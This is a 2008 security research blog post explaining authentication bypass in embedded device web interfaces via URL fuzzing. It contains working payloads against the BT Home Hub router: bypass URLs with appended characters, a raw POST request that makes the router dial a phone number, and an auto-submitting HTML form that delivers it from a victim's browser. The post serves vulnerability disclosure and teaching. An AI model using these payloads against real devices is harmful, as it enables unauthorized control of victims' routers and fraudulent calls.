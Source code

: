 ```yaml
---
title: Holes In Embedded Devices Authentication Bypass (pt 1)
author: adrian-pastor
date: Thu, 14 Feb 2008 12:13:33 GMT
template: post.jade
---
```


Finding authentication bypass bugs is an obvious choice for attackers, since such bugs allow administrative changes to be made without knowledge of the admin password. In other words, compromising the target device without requiring a password is of course something attackers are interested in! You bet!

After performing my own research and going through authentication bypass bugs on embedded devices published by other peers in the community, I came to the conclusion that these bugs are usually (or at least quite often) very simple flaws in web interfaces. Once you find one of these bugs they are usually trivial to exploit, and remind you of web vulnerabilities that you would expect finding in the 90s, but not these days.

The fact that embedded devices are very primitive in terms of hardware, ultimately means that the security of the software running on them is also sacrificed. Most of the authentication bypass bugs found on web interfaces of embedded devices fall into one of the following categories:

* URL fuzzing a.k.a. additional representation of URLs
* A-to-C attacks a.k.a. knowledge of "post-authentication" URLs
* Unchecked HTTP methods
* Unchecked administrative HTTP requests aka unprotected cgi scripts
* Unprotected redirects

We will go through all these authentication bypass bugs in detail. For this post, we will only cover the first type: URL fuzzing a.k.a. additional representation of URLs<.

## Authentication bypass via URL fuzzing

URL fuzzing targets bugs in the web server or server-side scripts that are part of the web console of an embedded device. These bugs could be due to a poorly-written regex, and finding them is all about finding alternative ways to represent a URL that would usually grant access to administrative functionalities. Sometimes, there are multiple ways a URL can be represented which is still understood by the target device, but causes the device to not require the user to enter a password.

For instance, the BT Home Hub, which is the most popular DSL router in the UK is [vulnerable](/blog/bt-home-flub-pwnin-the-bt-home-hub-4) to an authentication bypass bug due to the device accepting multiple representations of the same URL as valid, but only checking for password when submitting URLs in their original form. For example, the URL for accessing the firewall settings looks like: `http://bthomehub/cgi/b/secpol/cfg/` or `http://bthomehub/cgi/b/secpol/cfg/?ce=1&be=1&l0=4&l1=7` (they're both equivalent). However, appending various characters after the directory path allows attackers to completely bypass the authentication prompt:

* http://bthomehub/cgi/b/secpol/cfg/%5C
* http://bthomehub/cgi/b/secpol/cfg//
* http://bthomehub/cgi/b/secpol/cfg/%
* http://bthomehub/cgi/b/secpol/cfg/~

...and so on. The same technique could be used in this case not only to retrieve administrative settings, but also to make administrative changes. The only difference is that the requests must be submitted as POST rather than GET, but we still append the special characters to the URL the POST request is submitted to.For instance, the following POST request causes the BT Home Hub to call the Internet Office of the Holy See. Notice the double slash in the POST URL:

```http
POST /cgi/b/_voip_/stats//?ce=1&be=0&l0=-1&l1=-1&name= HTTP/1.1
Host: bthomehub

0=30&1=00390669893461
```

Such requests could be submitted by the victim's web browser via a HTML form with a `method="POST"` attribute:

```html
<html>
<body>
<form name="form" method="POST" enctype="application/x-www-form-urlencoded" action="http://bthomehub/cgi/b/_voip_/stats//?ce=1&be=0&l0=-1&l1=-1&name=">
<input type="hidden" name="0" value="30"/>
<input type="hidden" name="1" value="00390669893461"/>
</form>
<script>form.submit()</script>
</body>
</html>
```
